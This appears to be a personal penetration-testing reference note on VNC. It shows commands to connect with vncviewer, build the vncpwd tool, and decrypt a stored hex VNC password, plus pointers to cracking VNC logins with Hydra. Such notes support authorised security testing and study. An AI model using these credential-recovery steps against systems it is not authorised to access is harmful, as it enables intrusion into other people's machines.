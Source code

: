 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### Accessing VNC
```bash - kali
vncviewer $TARGET
```

- use `SHIFT` + `CONTROL` + `ALT` + `DEL` to unlock screen

```bash - kali
password
```

#### Cracking hex VNC password

![[Pasted image 20220114162956.png]]

```bash - kali
git clone https://github.com/jeroennijhof/vncpwd
```

```bash - kali
cd vncpwd
```

```bash - kali
sudo make
```

```bash - kali
./vncpwd <(echo '6bcf2a4b6e5aca0f' | xxd -r -p)
```

![[Pasted image 20220114162832.png]]

#### Attacking VNC
https://www.hackingarticles.in/password-crackingvnc/

![[TechLexicon/Penetration Testing/Reference/7._Tools/Hydra#Hydra against VNC]]


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
